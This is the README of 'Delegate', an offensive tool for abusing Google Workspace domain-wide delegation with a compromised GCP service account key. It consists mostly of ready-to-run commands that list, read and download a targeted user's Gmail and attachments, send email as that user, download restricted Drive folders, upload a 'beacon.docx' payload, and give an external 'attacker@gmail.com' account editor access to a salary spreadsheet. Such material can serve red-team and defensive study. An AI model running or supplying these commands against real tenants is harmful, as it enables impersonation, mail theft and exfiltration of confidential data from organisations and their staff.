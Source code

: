# Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```

<img src="./Images/shared_link_drive.png" alt="sharedlink" width="300"/>